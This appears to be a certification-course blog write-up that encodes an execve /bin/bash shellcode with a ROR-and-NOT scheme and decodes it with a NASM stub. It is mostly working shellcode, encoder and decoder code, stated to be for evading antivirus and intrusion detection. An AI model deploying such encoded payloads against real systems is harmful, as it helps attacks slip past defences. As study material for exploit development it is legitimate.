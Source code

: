 ```yaml
---
layout: post
title:  "SLAE Assignment 4 - Encoding/Decoding Shellcode"
date:   2017-04-23
categories: certification
---
```

<br />
Student **SLAE - 891**  
Github: [https://github.com/phackt/slae](https://github.com/phackt/slae)  
[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)  
  
## Assignment 4:  
  
Code is available on my [github repo](https://github.com/phackt/slae/tree/master/assignment4).  
  
**Our Goal:**  
> *Create a custom encoding scheme*
 - *POC with using the execve-stack as the shellcode*  
  
Hello everybody,  
  
Today we will create an encoded shellcode and its decoding routine.  Encoding a shellcode is useful to bypass Antivirus or Intrusion Detection Systems. Our resulting shellcode and its opcodes will have no meaning at all if the encoding scheme if robust enough (for example avoid classic XOR encoding).  
  
For each byte, our encoding scheme will consists in:  
 - Rolling four bits to the right (ROR instruction)  
 - Getting the complement of that byte (NOT)  
  
We will apply this encoding scheme on the following execve **/bin/bash** stack shellcode:  
```nasm
global _start			

section .text
_start:

	; PUSH the first null dword 
	xor eax, eax
	push eax

	; PUSH ////bin/bash (12) 

	push 0x68736162
	push 0x2f6e6962
	push 0x2f2f2f2f

	mov ebx, esp

	push eax
	mov edx, esp

	push ebx
	mov ecx, esp

	mov al, 11
	int 0x80
```  
  
Testing the execve stack shellcode provides a /bin/bash prompt indeed:  
```bash
# gcc -o shellcode shellcode.c  && ./shellcode
Shellcode Length:  30
root@kali:/root/Documents/pentest/certs/slae/exam/assignment4# id
uid=0(root) gid=0(root) groups=0(root)
```  
  
Execve stack shellcode looks like:  
```bash
\x31\xc0\x50\x68\x2f\x2f\x6c\x73\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```
  
Let's now create our encoding routine ([shellcode_encode.c](https://github.com/phackt/slae/tree/master/assignment4/shellcode_encode.c)):  
```c
#include <stdio.h>
#include <string.h>

// execve stack shellcode
unsigned char shellcode[] = \
"\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

// print shellcode
void print_shellcode(){

	printf("Length %d\n",sizeof(shellcode));
	for (int i=0; i<strlen(shellcode); i++) {
		printf("\\x%02x", shellcode[i]);
	}
	printf("\n");

	for (int i=0; i<strlen(shellcode); i++) {
		printf("0x%02x,", shellcode[i]);
	}
}

void main()
{

	int	rotate = 4;	// rotate 4 bits to the right

	// print initial shellcode
	printf("Initial shellcode\n");
	print_shellcode();
	printf("\n");

	for (int i=0; i<strlen(shellcode); i++) {
		shellcode[i] = (shellcode[i] >> rotate) | (shellcode[i] << (8-rotate));	// ror method
		shellcode[i] = ~shellcode[i]; // one's complement 
	}

	// print encoded shellcode
	printf("\nEncoded shellcode\n");
	print_shellcode();
	printf("0xaa"); // marker for the end of encoded shellcode
	printf("\n");

}
```
  
The encoded execve stack shellcode is the following:  
```bash
0xec,0xf3,0xfa,0x79,0xd9,0xe9,0xc8,0x79,0x79,0xd9,0x69,0x19,0x0d,0x79,0x0d,0x0d,0x0d,0x0d,0x67,0xc1,0xfa,0x67,0xd1,0xca,0x67,0xe1,0xf4,0x4f,0x23,0xf7,0xaa
```
  
Let's create the decoding nasm shellcode [shellcode_decoder.nasm](https://github.com/phackt/slae/tree/master/assignment4/shellcode_decoder.nasm):  
```nasm
global _start			

section .text
_start:

	jmp short call_shellcode    ; jmp, call, pop technique

decoder:
	pop esi

decode: 
	xor eax, eax
	xor ebx, ebx
	mov al, byte [esi]          ; we move the byte to be decoded
	not al                      ; one's complement
	rol al, 4                   ; rolling on left to decode the rolling on right encoding
	mov byte [esi], al          ; saving the decoded byte

	lea esi, [esi + 1]          ; next byte   
	mov bl, [esi]  
	cmp bl, 0xaa                ; looking for the end of encoded shellcode
	je short EncodedShellcode   ; we jump to the decoded shellcode
	jmp short decode            ; keeping on decoding

call_shellcode:

	call decoder
	EncodedShellcode: db 0xec,0xf3,0xfa,0x79,0xd9,0xe9,0xc8,0x79,0x79,0xd9,0x69,0x19,0x0d,0x79,0x0d,0x0d,0x0d,0x0d,0x67,0xc1,0xfa,0x67,0xd1,0xca,0x67,0xe1,0xf4,0x4f,0x23,0xf7,0xaa
```  
  
Let's assembly, link and get the decoding shellcode:  
```bash
# ./compile.sh shellcode_decoder
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
# objdump -d ./shellcode_decoder|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xeb\x1a\x5e\x31\xc0\x31\xdb\x8a\x06\xf6\xd0\xc0\xc0\x04\x88\x06\x8d\x76\x01\x8a\x1e\x80\xfb\xaa\x74\x07\xeb\xe7\xe8\xe1\xff\xff\xff\xec\xf3\xfa\x79\xd9\xe9\xc8\x79\x79\xd9\x69\x19\x0d\x79\x0d\x0d\x0d\x0d\x67\xc1\xfa\x67\xd1\xca\x67\xe1\xf4\x4f\x23\xf7\xaa"
```
  
Let's update the [shellcode.c](https://github.com/phackt/slae/tree/master/assignment4/shellcode.c) file and execute our decoding shellcode:  
![image1]({{ site.url }}/public/images/slae/assignment4/image1.png)  
  
Remember that running our shellcode thanks to shellcode.c is useful because our shellcode will be located into the writable .data segment.  
If we directly execute the shellcode_decoder executable, it will result in a segmentation fault because it will try to rewrite the EncodedShellcode variable located in the non writable .text segment (also useful to use the jmp/call/pop technique in order to avoid null bytes and to dynamically get the address of our encoded shellcode).  
  
We did not test it on [VirusTotal](https://www.virustotal.com/) in order to avoid the fingerprinting of the encoding scheme.  
  
Hope you enjoyed this post, don't hesitate to comment and share.  
  
[Phackt](https://twitter.com/phackt_ul)